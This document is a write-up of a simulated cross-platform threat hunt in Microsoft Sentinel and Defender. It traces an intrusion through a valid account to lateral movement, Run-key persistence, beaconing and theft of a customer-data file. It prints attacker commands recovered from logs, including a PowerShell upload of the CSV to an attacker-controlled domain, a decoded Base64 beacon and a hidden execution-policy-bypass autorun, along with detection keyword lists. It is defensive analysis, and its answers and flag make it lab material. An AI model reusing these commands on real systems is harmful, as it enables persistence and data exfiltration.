

# Northpeak Descent — Cross-Platform Threat Hunt

> **Microsoft Sentinel + Microsoft Defender for Endpoint | Valid-account intrusion | Lateral movement | Persistence | Command and control | Data exfiltration**

[](#)
[](#)
[](#)
[](#)

## Table of Contents

- [Project Overview](#project-overview)
- [Executive Summary](#executive-summary)
- [Hunt Objectives](#hunt-objectives)
- [Environment and Data Sources](#environment-and-data-sources)
- [Hunt Methodology](#hunt-methodology)
- [Attack-Chain Summary](#attack-chain-summary)
- [Investigation Timeline](#investigation-timeline)
- [Phase 1 — Initial Access](#phase-1--initial-access)
- [Phase 2 — Linux Reconnaissance and Tooling](#phase-2--linux-reconnaissance-and-tooling)
- [Phase 3 — Pivot, Execution, Privilege Validation, and Persistence](#phase-3--pivot-execution-privilege-validation-and-persistence)
- [Phase 4 — Command and Control](#phase-4--command-and-control)
- [Phase 5 — Impact and Analyst Judgement](#phase-5--impact-and-analyst-judgement)
- [Indicators of Compromise](#indicators-of-compromise)
- [MITRE ATT&CK Mapping](#mitre-attck-mapping)
- [Detection Opportunities](#detection-opportunities)
- [Containment and Remediation](#containment-and-remediation)
- [Key Lessons](#key-lessons)
- [Skills Demonstrated](#skills-demonstrated)
- [Disclaimer and Attribution](#disclaimer-and-attribution)

---

## Project Overview

| Field | Details |
|---|---|
| **Organization** | Northpeak Logistics |
| **Investigation** | Northpeak Descent community threat hunt |
| **Difficulty** | Intermediate |
| **Environment** | Windows estate and Linux host |
| **Security platforms** | Microsoft Sentinel and Microsoft Defender for Endpoint |
| **Telemetry window** | June 16, 2026, approximately 20:00–00:30 UTC |
| **Scope** | Estate-wide investigation across three hosts |
| **Primary account** | `sancadmin` |
| **Primary external source** | `148.64.103.173` |
| **Final classification** | Confirmed malicious valid-account intrusion |
| **Business impact** | Customer-data export exfiltrated from `npt-srv01` |

### Investigated Hosts

| Host | Operating system / role | Investigation relevance |
|---|---|---|
| `npt-ws01` | Windows workstation | Earliest foothold, interactive PowerShell, persistence, and beaconing |
| `npt-srv01` | Windows server | Independent remote access and customer-data exfiltration |
| `npt-linux01` | Linux host | SSH access, privilege checks, reachability testing, and NetExec installation |

---

## Executive Summary

A threat hunt was conducted after suspicious activity was identified across the Northpeak Logistics estate on the evening of June 16, 2026. The environment contained a large volume of failed authentication events that initially suggested brute-force activity. Investigation of successful logons showed that the failed-logon storm was a distraction: the attacker authenticated successfully with the valid `sancadmin` account from the public IP address `148.64.103.173`.

The attacker established multiple footholds across Windows and Linux systems. Timeline analysis showed that `npt-ws01`, not the Linux host, was the first compromised system. The same external address subsequently accessed `npt-linux01` through SSH and `npt-srv01` through RDP. On Linux, the attacker enumerated sudo privileges, tested TCP port `3389` with Bash `/dev/tcp`, and installed NetExec. The Linux host then became the source of an internal NTLM-authenticated connection to `npt-ws01`.

On the Windows workstation, interactive PowerShell was separated from high-volume automated activity through parent-process analysis. The attacker validated account privileges, established registry Run-key persistence, and used PowerShell `Invoke-WebRequest` commands to communicate with three look-alike domains. One beacon was Base64 encoded, and the timing of repeated check-ins indicated automated command-and-control behavior.

The intrusion culminated in the exfiltration of `customer_data_export_20260616.csv` from `npt-srv01` to `cdn.sync-northpeak.com`. The upload occurred approximately one minute after the attacker opened a second remote interactive server session. No evidence showed that the attacker disabled or tampered with the security stack. Instead, the operation relied on valid credentials, built-in utilities, trusted protocols, and living-off-the-land techniques.

### Final Verdict

> **True Positive — Confirmed malicious valid-account intrusion with lateral movement, persistence, command-and-control activity, and customer-data exfiltration.**

**Confidence:** High

---

## Hunt Objectives

The investigation was designed to answer the following questions:

1. Which system was compromised first, and how was it accessed?
2. Which identity and external source connected the activity across the estate?
3. How did the attacker use the Linux host for reconnaissance and tooling?
4. What was the internal pivot path?
5. Which PowerShell activity represented human interaction rather than automation?
6. How was persistence established?
7. What command-and-control infrastructure was used?
8. What data was exfiltrated, from which system, and during which session?
9. Did the attacker tamper with security controls, or operate through trusted tools instead?

---

## Environment and Data Sources

All investigation queries were scoped to the Northpeak hosts to prevent unrelated telemetry in the shared workspace from contaminating the results.

```kql
| where DeviceName has_any ("npt-ws01", "npt-srv01", "npt-linux01")
```

The following Microsoft Defender XDR tables were used:

| Table | Investigation use |
|---|---|
| `DeviceLogonEvents` | Successful external access, RDP/SSH sessions, source IPs, lateral movement, and session correlation |
| `DeviceProcessEvents` | Linux commands, PowerShell lineage, encoded commands, beacon URLs, tooling, and exfiltration commands |
| `DeviceRegistryEvents` | Registry Run-key persistence |
| `DeviceNetworkEvents` | Network-visible command-and-control activity and cross-source validation |
| `DeviceFileEvents` | File creation and staging validation where available |
| `DeviceEvents` | Endpoint and security-control activity where available |

---

## Hunt Methodology

The investigation followed a hypothesis-driven workflow:

1. **Filter the estate first** to avoid unrelated shared-workspace telemetry.
2. **Prioritize successful authentication** rather than the high-volume failed-logon decoy.
3. **Build one cross-platform timeline** instead of assuming Linux was the first foothold.
4. **Pivot on identity and source address**, especially `sancadmin` and `148.64.103.173`.
5. **Separate human activity from automation** through process lineage, frequency, and command context.
6. **Correlate across tables** because network telemetry alone did not expose the complete C2 infrastructure.
7. **Treat absence as evidence**, particularly the lack of security-control tampering and dropped custom malware.
8. **Reconstruct the full chain** from initial access through impact.

---

## Attack-Chain Summary



### Key Findings

| Stage | Finding | Confidence |
|---|---|---|
| Initial access | Valid `sancadmin` credentials used from `148.64.103.173` | High |
| Foothold order | `npt-ws01` was compromised before `npt-linux01` | High |
| Linux access | External SSH session established on `npt-linux01` | High |
| Linux tooling | NetExec installed with `pipx` | Confirmed |
| Lateral movement | `10.2.0.30` connected internally to `npt-ws01` using `sancadmin` over NTLM | High |
| Interactive execution | PowerShell launched by `explorer.exe` represented hands-on-keyboard activity | High |
| Privilege validation | Attacker checked group membership with `whoami /groups` | High |
| Persistence | PowerShell script added to the current-user Run key | Confirmed |
| C2 | Three look-alike `sync-northpeak.com` subdomains were used | Confirmed |
| Obfuscation | One PowerShell beacon was Base64 encoded | Confirmed |
| Exfiltration | Customer-data CSV uploaded from `npt-srv01` | Confirmed |
| Defense evasion model | No security tampering; attacker relied on built-in tools and trusted access | High |

---

## Investigation Timeline

| Time UTC | Host | Event |
|---|---|---|
| Before 22:01 | `npt-ws01` | Earliest successful external foothold from `148.64.103.173` |
| 21:54:45 | `npt-ws01` | Interactive PowerShell launched from `explorer.exe` |
| 21:58:08 | `npt-srv01` | First remote interactive server session |
| 22:01:38 | `npt-linux01` | Successful SSH access by `sancadmin` from `148.64.103.173` |
| 22:11:28 | `npt-linux01` | Sudo enumeration; typo `sudo -1` followed by `sudo -l` |
| 22:21:28 | `npt-linux01` | Bash `/dev/tcp` test against `10.2.0.10:3389` |
| 22:29:16 | `npt-linux01` | NetExec installed with `pipx` |
| 22:32:18 | `npt-ws01` | Internal NTLM connection from `10.2.0.30` using `sancadmin` |
| 22:43:04 | `npt-ws01` | `whoami /groups` used to validate account privileges |
| 23:04:16 | `npt-ws01` | Registry Run-key persistence created |
| 23:15:47 | `npt-ws01` | Check-in to `status.sync-northpeak.com` |
| 23:15:49 | `npt-ws01` | Request to `updates.sync-northpeak.com` |
| 23:16:25 | `npt-ws01` | Repeated status-domain check-in indicated scripted beaconing |
| 23:19:22 | `npt-ws01` | Encoded PowerShell beacon to `cdn.sync-northpeak.com` |
| 23:42:52 | `npt-srv01` | Second remote interactive server session |
| 23:44:08 | `npt-srv01` | Customer-data CSV uploaded to `cdn.sync-northpeak.com` |

---

# Phase 1 — Initial Access

## Q01 — The Real Foothold

### Objective

Identify successful external authentication activity and determine the source IP address and remote-access method used by the attacker.

### Query

```kql
DeviceLogonEvents
| where TimeGenerated between (
    datetime(2026-06-16 20:00:00) ..
    datetime(2026-06-17 00:30:00)
)
| where DeviceName has_any ("npt-ws01", "npt-srv01", "npt-linux01")
| where ActionType contains "success"
| where isnotempty(RemoteIP)
| where not(ipv4_is_private(RemoteIP))
| project
    TimeGenerated,
    DeviceName,
    AccountName,
    RemoteIP,
    RemoteDeviceName,
    LogonType,
    Protocol,
    InitiatingProcessFileName
| order by TimeGenerated asc
```


### Evidence and Analysis

- The failed-logon storm was excluded by filtering only successful events.
- A successful external authentication was associated with `sancadmin` and `148.64.103.173`.
- The relevant Windows session used `RemoteInteractive`, which is consistent with RDP.
- The attacker entered with a valid account rather than exploiting a software vulnerability.

### Answer

**`148.64.103.173, RDP`**

### Conclusion

The intrusion began through valid-account remote access. This finding changed the investigation from a brute-force hypothesis to a credential-compromise investigation.

**MITRE ATT&CK:** `T1078 — Valid Accounts`, `T1021.001 — Remote Services: RDP`

---

## Q02 — First Foothold and Ordering

### Objective

Compare successful external access across all three systems and prove which host was compromised first.

### Query

```kql
DeviceLogonEvents
| where TimeGenerated between (
    datetime(2026-06-16 20:00:00) ..
    datetime(2026-06-17 00:30:00)
)
| where DeviceName has_any ("npt-ws01", "npt-srv01", "npt-linux01")
| where ActionType contains "success"
| where RemoteIP == "148.64.103.173"
| summarize
    FirstSuccessfulAccess=min(TimeGenerated),
    LogonTypes=make_set(LogonType),
    Protocols=make_set(Protocol),
    Accounts=make_set(AccountName)
    by DeviceName
| order by FirstSuccessfulAccess asc
```


### Evidence and Analysis

The obvious narrative suggested that the attacker first accessed Linux and then pivoted to Windows. Timeline comparison disproved that assumption. `npt-ws01` showed the earliest successful access from the shared external IP, while the Linux SSH event occurred later at `22:01:38 UTC`.

### Answer

**`npt-ws01, 148.64.103.173`**

### Conclusion

The Windows workstation was the first foothold. The attacker later established parallel access to Linux and the server.

**MITRE ATT&CK:** `T1078 — Valid Accounts`, `T1021.001 — RDP`

---

## Q03 — Operator Workstation Name

### Objective

Identify the remote client hostname announced during the attacker’s remote sessions.

### Query

```kql
DeviceLogonEvents
| where TimeGenerated between (
    datetime(2026-06-16 20:00:00) ..
    datetime(2026-06-17 00:30:00)
)
| where DeviceName has_any ("npt-ws01", "npt-srv01", "npt-linux01")
| where ActionType contains "success"
| where RemoteIP == "148.64.103.173"
| where isnotempty(RemoteDeviceName)
| project
    TimeGenerated,
    DeviceName,
    RemoteDeviceName,
    AccountName,
    RemoteIP,
    LogonType,
    Protocol,
    InitiatingProcessFileName
| order by TimeGenerated asc
```


### Evidence and Analysis

The `RemoteDeviceName` field repeatedly identified the client as `loranse`. This hostname tied multiple remote sessions to the same operator-controlled system.

### Answer

**`loranse`**

### Conclusion

The attacker’s remote client leaked a reusable hostname that strengthened attribution across separate sessions.

---

## Q04 — SRV01 Access Vector

### Objective

Determine how `npt-srv01` was accessed, the source address, and the session type.

### Query

```kql
DeviceLogonEvents
| where TimeGenerated between (
    datetime(2026-06-16 20:00:00) ..
    datetime(2026-06-17 00:30:00)
)
| where DeviceName == "npt-srv01"
| where ActionType contains "success"
| where RemoteIP == "148.64.103.173"
| project
    TimeGenerated,
    DeviceName,
    AccountName,
    RemoteIP,
    RemoteDeviceName,
    LogonType,
    Protocol,
    InitiatingProcessFileName
| order by TimeGenerated asc
```


### Evidence and Analysis

- The server was accessed directly from the external IP rather than solely through an internal pivot.
- The session type was `RemoteInteractive`, consistent with RDP.
- The same valid account and external source connected this event to the broader intrusion.

### Answer

**`RDP, 148.64.103.173, RemoteInteractive`**

### Conclusion

`npt-srv01` represented an independent external foothold. This increased the attacker’s resilience and gave direct access to the system holding the targeted data.

**MITRE ATT&CK:** `T1078 — Valid Accounts`, `T1021.001 — RDP`

---

# Phase 2 — Linux Reconnaissance and Tooling

## Q05 — Sudo Enumeration

### Objective

Identify the exact command used to enumerate Linux sudo privileges.

### Query

```kql
DeviceProcessEvents
| where TimeGenerated between (
    datetime(2026-06-16 20:00:00) ..
    datetime(2026-06-17 00:30:00)
)
| where DeviceName == "npt-linux01"
| where FileName =~ "sudo" or ProcessCommandLine contains "sudo"
| project TimeGenerated, AccountName, FileName, ProcessCommandLine, InitiatingProcessFileName
| order by TimeGenerated asc
```


### Evidence and Analysis

At `22:11:28 UTC`, the attacker first entered `sudo -1`, using the number one, and then corrected the command to `sudo -l`. The correction is a strong hands-on-keyboard indicator rather than an automated administrative task.

### Answer

**`sudo -l`**

### Conclusion

The attacker enumerated commands that the compromised account could run with elevated privileges.

**MITRE ATT&CK:** `T1069.001 — Permission Groups Discovery: Local Groups`, `T1087.001 — Account Discovery: Local Account`

---

## Q06 — Reachability Technique

### Objective

Determine how the attacker tested Windows reachability without installing a port scanner and identify the target port.

### Query

```kql
DeviceProcessEvents
| where TimeGenerated between (
    datetime(2026-06-16 20:00:00) ..
    datetime(2026-06-17 00:30:00)
)
| where DeviceName == "npt-linux01"
| where ProcessCommandLine contains "/dev/tcp"
| project TimeGenerated, AccountName, FileName, ProcessCommandLine, InitiatingProcessFileName
| order by TimeGenerated asc
```


### Evidence and Analysis

The attacker used Bash’s built-in `/dev/tcp` pseudo-device with `timeout` to test whether `10.2.0.10` accepted connections on TCP port `3389`. This avoided dropping a dedicated scanning utility. Port `3389` indicated preparation for RDP access or validation of an RDP-reachable target.

### Answer

**`/dev/tcp, 3389`**

### Conclusion

The attacker performed targeted service discovery using a native shell feature, reducing the likelihood of file-based detection.

**MITRE ATT&CK:** `T1046 — Network Service Discovery`, `T1059.004 — Unix Shell`

---

## Q07 — Operator Tooling

### Objective

Identify the tool installed on the Linux host for subsequent internal operations.

### Query

```kql
DeviceProcessEvents
| where TimeGenerated between (
    datetime(2026-06-16 20:00:00) ..
    datetime(2026-06-17 00:30:00)
)
| where DeviceName == "npt-linux01"
| where ProcessCommandLine has_any (
    "apt install",
    "apt-get install",
    "pip install",
    "pip3 install",
    "pipx install",
    "which ",
    "command -v",
    "--version"
)
| project
    TimeGenerated,
    AccountName,
    FileName,
    ProcessCommandLine,
    InitiatingProcessFileName
| order by TimeGenerated asc
```


### Evidence and Analysis

At `22:29:16 UTC`, `sancadmin` executed:

```text
/usr/bin/python3 /usr/bin/pipx install netexec
```

NetExec is commonly used to enumerate, authenticate to, and execute against Windows systems over protocols such as SMB and WinRM. Its installation immediately before the internal authentication event made it highly relevant to the pivot.

### Answer

**`NetExec`**

### Conclusion

The Linux host was prepared as an operator platform for Windows-focused internal activity.

**MITRE ATT&CK:** `T1588.002 — Obtain Capabilities: Tool`, `T1059.006 — Python`

---

# Phase 3 — Pivot, Execution, Privilege Validation, and Persistence

## Q08 — Lateral Movement Triple

### Objective

Identify the account, internal source address, and target host involved in the internal pivot.

### Query

```kql
DeviceLogonEvents
| where TimeGenerated between (
    datetime(2026-06-16 20:00:00) ..
    datetime(2026-06-17 00:30:00)
)
| where DeviceName == "npt-ws01"
| where ActionType contains "success"
| where isnotempty(RemoteIP)
| where RemoteIP startswith "10."
    or RemoteIP startswith "192.168."
    or ipv4_is_in_range(RemoteIP, "172.16.0.0/12")
| project
    TimeGenerated,
    AccountName,
    RemoteIP,
    DeviceName,
    LogonType,
    Protocol,
    RemoteDeviceName,
    InitiatingProcessFileName
| order by TimeGenerated asc
```


### Evidence and Analysis

At `22:32:18 UTC`, `npt-ws01` accepted a successful internal authentication from `10.2.0.30` using `sancadmin` over NTLM. The timing followed the installation of NetExec on the Linux host, creating a coherent sequence from tool installation to internal authentication.

### Answer

**`sancadmin, 10.2.0.30, npt-ws01`**

### Conclusion

The attacker used the Linux-side internal address to authenticate back to the Windows workstation, demonstrating lateral movement or re-entry from inside the network.

**MITRE ATT&CK:** `T1021 — Remote Services`, `T1078 — Valid Accounts`, `T1550.002 — Pass the Hash` *(possible; NTLM alone does not prove hash use)*

---

## Q09 — Operator PowerShell Lineage

### Objective

Separate interactive attacker PowerShell from high-volume automated PowerShell activity.

### Query

```kql
DeviceProcessEvents
| where TimeGenerated between (
    datetime(2026-06-16 20:00:00) ..
    datetime(2026-06-17 00:30:00)
)
| where DeviceName == "npt-ws01"
| where FileName in~ ("powershell.exe", "pwsh.exe")
| summarize
    Count=count(),
    FirstSeen=min(TimeGenerated),
    ExampleCommand=any(ProcessCommandLine)
    by InitiatingProcessFileName
| order by Count asc
```


### Evidence and Analysis

- `powershell.exe` launched by `explorer.exe` appeared only three times.
- `explorer.exe` represents an interactive desktop context and is consistent with a user manually opening PowerShell.
- This lineage differed from service or management-agent parent processes that generated repetitive machine activity.

### Answer

**`explorer.exe`**

### Conclusion

Parent-process analysis separated hands-on-keyboard PowerShell from benign automated noise.

**Confidence:** High

**MITRE ATT&CK:** `T1059.001 — PowerShell`

---

## Q18 — Confirming the Foothold’s Rights

### Objective

Determine what privilege relationship the attacker checked after returning to the workstation.

### Query

```kql
DeviceProcessEvents
| where DeviceName == "npt-ws01"
| where TimeGenerated between (
    datetime(2026-06-16 20:00:00) ..
    datetime(2026-06-17 00:30:00)
)
| where ProcessCommandLine has_any (
    "whoami",
    "localgroup",
    "Administrators",
    "Get-LocalGroupMember"
)
| project
    TimeGenerated,
    AccountName,
    FileName,
    ProcessCommandLine,
    InitiatingProcessFileName
| order by TimeGenerated asc
```


### Evidence and Analysis

At `22:43:04 UTC`, `sancadmin` executed:

```text
whoami.exe /groups
```

The command lists group memberships and security identifiers associated with the current token. In this context, the attacker was validating whether the compromised account held privileged local group membership, most likely membership in the local Administrators group.

### Answer

**`Local Administrators, account membership`**

### Conclusion

The attacker confirmed the privilege level of the stolen account before continuing post-compromise activity.

**MITRE ATT&CK:** `T1033 — System Owner/User Discovery`, `T1069.001 — Permission Groups Discovery: Local Groups`

---

## Q10 — Persistence Full Command

### Objective

Identify the exact command planted to survive a reboot or future user logon.

### Query

```kql
DeviceRegistryEvents
| where DeviceName == "npt-ws01"
| where TimeGenerated between (
    datetime(2026-06-16 20:00:00) ..
    datetime(2026-06-17 00:30:00)
)
| where RegistryKey contains @"\Run"
    or RegistryKey contains @"\RunOnce"
| project
    TimeGenerated,
    RegistryKey,
    RegistryValueName,
    RegistryValueData,
    InitiatingProcessFileName,
    InitiatingProcessCommandLine
| order by TimeGenerated asc
```


### Evidence

At `23:04:16 UTC`, the following value was written:

| Field | Value |
|---|---|
| Registry key | `HKEY_CURRENT_USER\...\Software\Microsoft\Windows\CurrentVersion\Run` |
| Value name | `NorthpeakSyncTray` |
| Value data | `powershell.exe -NoProfile -WindowStyle Hidden -ExecutionPolicy Bypass -File "C:\ProgramData\Northpeak\NorthpeakSync\Bin\NorthpeakSyncTray.ps1"` |
| Initiating process | `powershell.exe` |

### Answer

```powershell
powershell.exe -NoProfile -WindowStyle Hidden -ExecutionPolicy Bypass -File "C:\ProgramData\Northpeak\NorthpeakSync\Bin\NorthpeakSyncTray.ps1"
```

### Analysis

The current-user Run key executes its configured value at user logon. The attacker used a legitimate-looking value name, hid the PowerShell window, bypassed the execution policy, and referenced a script under a plausible application-style directory.

### Conclusion

Confirmed PowerShell persistence was established on `npt-ws01` through a registry autorun entry.

**Confidence:** Confirmed

**MITRE ATT&CK:** `T1060 / T1547.001 — Registry Run Keys / Startup Folder`, `T1059.001 — PowerShell`, `T1036 — Masquerading`

---

# Phase 4 — Command and Control

## Q11 — Beacon Domains Across Sources

### Objective

Identify all three look-alike domains in first-seen order and determine where the network-missing domains were visible.

### Query

```kql
DeviceProcessEvents
| where TimeGenerated between (
    datetime(2026-06-16 20:00:00) ..
    datetime(2026-06-17 00:30:00)
)
| where DeviceName has_any ("npt-ws01", "npt-srv01", "npt-linux01")
| where ProcessCommandLine contains "sync-northpeak"
    or InitiatingProcessCommandLine contains "sync-northpeak"
| project
    TimeGenerated,
    DeviceName,
    ProcessCommandLine,
    InitiatingProcessCommandLine
| order by TimeGenerated asc
```


### Evidence

| First seen UTC | Host | Domain | Activity |
|---|---|---|---|
| 23:15:47 | `npt-ws01` | `status.sync-northpeak.com` | `/api/checkin?host=NPT-WS01` |
| 23:15:49 | `npt-ws01` | `updates.sync-northpeak.com` | `/api/status?host=NPT-WS01` |
| 23:44:08 | `npt-srv01` | `cdn.sync-northpeak.com` | `/api/upload?host=NPT-SRV01&data=customers` |

### Answer

**`status.sync-northpeak.com, updates.sync-northpeak.com, cdn.sync-northpeak.com; ProcessCommandLine`**

### Analysis

`DeviceNetworkEvents` captured only the status domain. The updates and CDN domains were recovered from PowerShell command-line telemetry. This demonstrated why the investigation could not depend on the network table alone.

### Conclusion

The attacker distributed operations across three plausible infrastructure-themed subdomains to blend with legitimate synchronization and update traffic.

**MITRE ATT&CK:** `T1071.001 — Application Layer Protocol: Web Protocols`, `T1583.001 — Acquire Infrastructure: Domains`

---

## Q12 — Encoded Beacon Decode

### Objective

Decode the wrapped PowerShell command and recover the complete beacon URL.

### Query

```kql
DeviceProcessEvents
| where DeviceName == "npt-ws01"
| where TimeGenerated between (
    datetime(2026-06-16 23:00:00) ..
    datetime(2026-06-17 00:30:00)
)
| where ProcessCommandLine contains "encodedCommand"
    or ProcessCommandLine contains " -enc "
| project TimeGenerated, ProcessCommandLine, InitiatingProcessFileName
| order by TimeGenerated asc
```


### Encoded Command

```text
SQBuAHYAbwBrAGUALQBXAGUAYgBSAGUAcQB1AGUAcwB0ACAALQBVAHIAaQAgACIAaAB0AHQAcABzADoALwAvAGMAZABuAC4AcwB5AG4AYwAtAG4AbwByAHQAaABwAGUAYQBrAC4AYwBvAG0ALwBhAHAAaQAvAGIAZQBhAGMAbwBuAD8AaQBkAD0ATgBQAFQALQBXAFMAMAAxACYAZgBsAGEAZwA9AE4ATwBSAFQASABQAEUAQQBLAC0AMAA5ACIAIAAtAFUAcwBlAEIAYQBzAGkAYwBQAGEAcgBzAGkAbgBnACAALQBUAGkAbQBlAG8AdQB0AFMAZQBjACAANAA=
```

### Safe Offline Decoding Method

```powershell
$encoded = "SQBuAHYAbwBrAGUALQBXAGUAYgBSAGUAcQB1AGUAcwB0ACAALQBVAHIAaQAgACIAaAB0AHQAcABzADoALwAvAGMAZABuAC4AcwB5AG4AYwAtAG4AbwByAHQAaABwAGUAYQBrAC4AYwBvAG0ALwBhAHAAaQAvAGIAZQBhAGMAbwBuAD8AaQBkAD0ATgBQAFQALQBXAFMAMAAxACYAZgBsAGEAZwA9AE4ATwBSAFQASABQAEUAQQBLAC0AMAA5ACIAIAAtAFUAcwBlAEIAYQBzAGkAYwBQAGEAcgBzAGkAbgBnACAALQBUAGkAbQBlAG8AdQB0AFMAZQBjACAANAA="
$bytes = [Convert]::FromBase64String($encoded)
[Text.Encoding]::Unicode.GetString($bytes)
```

### Decoded Command

```powershell
Invoke-WebRequest -Uri "https://cdn.sync-northpeak.com/api/beacon?id=NPT-WS01&flag=NORTHPEAK-09" -UseBasicParsing -TimeoutSec 4
```

### Answer

**`https://cdn.sync-northpeak.com/api/beacon?id=NPT-WS01&flag=NORTHPEAK-09`**

### Conclusion

The attacker used PowerShell Base64 encoding to conceal a full HTTPS beacon URL from casual inspection.

**MITRE ATT&CK:** `T1027 — Obfuscated Files or Information`, `T1059.001 — PowerShell`, `T1071.001 — Web Protocols`

---

## Q13 — Encoded-Command Discrimination

### Objective

Distinguish benign encoded PowerShell generated by system automation from attacker-controlled encoded commands.

### Query

```kql
DeviceProcessEvents
| where TimeGenerated between (
    datetime(2026-06-16 20:00:00) ..
    datetime(2026-06-17 00:30:00)
)
| where DeviceName == "npt-ws01"
| where FileName =~ "powershell.exe"
| where ProcessCommandLine contains "encodedCommand"
    or ProcessCommandLine contains " -enc "
| summarize
    Count=count(),
    ExampleCommand=any(ProcessCommandLine)
    by InitiatingProcessFileName
| order by Count desc
```


### Evidence and Analysis

| Parent process | Count | Interpretation |
|---|---:|---|
| `gc_worker.exe` | 10 | Repetitive automated system activity |
| `powershell.exe` | 3 | Suspicious nested PowerShell activity |

The `gc_worker.exe` commands decoded to:

```powershell
[Environment]::OSVersion.Version
```

That command only retrieves the operating-system version. Its repeated, noninteractive execution pattern was consistent with benign management-agent chatter. In contrast, the attacker-controlled encoded command used `-NoProfile`, `-ExecutionPolicy Bypass`, and `Invoke-WebRequest` to contact an external domain.

### Answer

**`gc_worker.exe`**

### Conclusion

Encoded PowerShell is not automatically malicious. Parent process, decoded content, repetition, execution flags, and network intent must be evaluated together.

---

## Q14 — Beacon Rhythm

### Objective

Determine what the spacing between repeated check-ins revealed about the command-and-control mechanism.

### Query

```kql
DeviceProcessEvents
| where TimeGenerated between (
    datetime(2026-06-16 20:00:00) ..
    datetime(2026-06-17 00:30:00)
)
| where DeviceName == "npt-ws01"
| where ProcessCommandLine contains "status.sync-northpeak.com"
| project TimeGenerated, ProcessCommandLine
| order by TimeGenerated asc
| serialize
| extend PreviousTime=prev(TimeGenerated)
| extend IntervalSeconds=datetime_diff("second", TimeGenerated, PreviousTime)
```


### Evidence and Analysis

The status-domain check-ins occurred at approximately:

- `23:15:47 UTC`
- `23:16:25 UTC`

The requests used nearly identical commands and appeared at regular spacing. That pattern was more consistent with a loop, scheduled action, or scripted beacon than with a person manually entering each command.

### Answer

**`Regular spacing, automated script`**

### Conclusion

The timing pattern supported automated command-and-control behavior.

**MITRE ATT&CK:** `T1071.001 — Web Protocols`

---

# Phase 5 — Impact and Analyst Judgement

## Q15 — Crown-Jewel Exfiltration

### Objective

Identify the file exfiltrated, the source host, and the destination domain.

### Query

```kql
DeviceProcessEvents
| where TimeGenerated between (
    datetime(2026-06-16 23:30:00) ..
    datetime(2026-06-17 00:30:00)
)
| where DeviceName has_any ("npt-ws01", "npt-srv01", "npt-linux01")
| where ProcessCommandLine has_any (
    "Invoke-WebRequest",
    "Invoke-RestMethod",
    "curl",
    "wget",
    "scp",
    "POST",
    "upload",
    ".zip",
    ".7z"
)
| project
    TimeGenerated,
    DeviceName,
    FileName,
    ProcessCommandLine,
    InitiatingProcessFileName
| order by TimeGenerated asc
```


### Evidence

```powershell
Invoke-WebRequest `
  -Uri 'https://cdn.sync-northpeak.com/api/upload?host=NPT-SRV01&data=customers' `
  -InFile 'C:\temp\customer_data_export_20260616.csv' `
  -UseBasicParsing `
  -TimeoutSec 5
```

### Answer

**`customer_data_export_20260616.csv, npt-srv01, cdn.sync-northpeak.com`**

### Analysis

The command explicitly used `-InFile` to send a customer-data export to an attacker-controlled HTTPS endpoint. The file name, query parameter `data=customers`, and server context established the business significance of the event.

### Conclusion

Customer data was exfiltrated from the server to the attacker’s CDN-themed infrastructure.

**Confidence:** Confirmed

**MITRE ATT&CK:** `T1041 — Exfiltration Over C2 Channel`, `T1071.001 — Web Protocols`, `T1059.001 — PowerShell`

---

## Q16 — Exfiltration Session Correlation

### Objective

Determine whether the upload occurred during the attacker’s first server session or the later session.

### Query

```kql
DeviceLogonEvents
| where DeviceName == "npt-srv01"
| where TimeGenerated between (
    datetime(2026-06-16 20:00:00) ..
    datetime(2026-06-17 00:30:00)
)
| where ActionType contains "success"
| where LogonType == "RemoteInteractive"
| project
    TimeGenerated,
    AccountName,
    RemoteIP,
    RemoteDeviceName,
    LogonType
| order by TimeGenerated asc
```


### Evidence and Analysis

| Event | Time UTC |
|---|---|
| First remote interactive session | `21:58:08` |
| Second remote interactive session | `23:42:52` |
| Customer-data upload | `23:44:08` |

The upload occurred approximately one minute after the second session started. Even though one duplicated event did not preserve the remote IP field, the session timestamp and `RemoteInteractive` classification placed the exfiltration inside the later session.

### Answer

**`Second session`**

### Conclusion

The attacker returned to the server and performed the final exfiltration almost immediately after reconnecting.

---

## Q17 — Holding the Ground

### Objective

Determine whether the attacker disabled security controls and identify the operating model that enabled the intrusion.

### Query

```kql
union isfuzzy=true
(
    DeviceProcessEvents
    | where DeviceName has_any ("npt-ws01", "npt-srv01", "npt-linux01")
    | project TimeGenerated, DeviceName, EvidenceType="Process", Evidence=ProcessCommandLine
),
(
    DeviceRegistryEvents
    | where DeviceName has_any ("npt-ws01", "npt-srv01", "npt-linux01")
    | project TimeGenerated, DeviceName, EvidenceType="Registry", Evidence=strcat(RegistryKey, " ", RegistryValueData)
),
(
    DeviceEvents
    | where DeviceName has_any ("npt-ws01", "npt-srv01", "npt-linux01")
    | project TimeGenerated, DeviceName, EvidenceType="DeviceEvent", Evidence=strcat(ActionType, " ", AdditionalFields)
)
| where TimeGenerated between (
    datetime(2026-06-16 20:00:00) ..
    datetime(2026-06-17 00:30:00)
)
| where Evidence has_any (
    "DisableRealtimeMonitoring",
    "Set-MpPreference",
    "sc stop",
    "net stop",
    "tamper",
    "Defender",
    "Sense",
    "WinDefend",
    "firewall off"
)
| order by TimeGenerated asc
```


### Evidence and Analysis

No evidence showed that the attacker disabled Defender, stopped endpoint services, altered tamper protection, or turned off the firewall. The attacker also avoided introducing a custom malware payload for the observed stages. Instead, the activity relied on:

- Valid credentials
- RDP and SSH
- NTLM authentication
- Bash built-ins
- Python and `pipx`
- NetExec
- PowerShell
- Registry Run keys
- HTTPS web requests

### Answer

**`No tampering, built-in tools`**

### Conclusion

The operator stayed effective by living off the land rather than tearing down defenses. The absence of tampering was itself an important finding and explained why conventional “security tool disabled” alerts did not trigger.

**MITRE ATT&CK:** `T1078 — Valid Accounts`, `T1218 — System Binary Proxy Execution` *(general living-off-the-land context)*, `T1059.001 — PowerShell`, `T1059.004 — Unix Shell`

---

## Indicators of Compromise
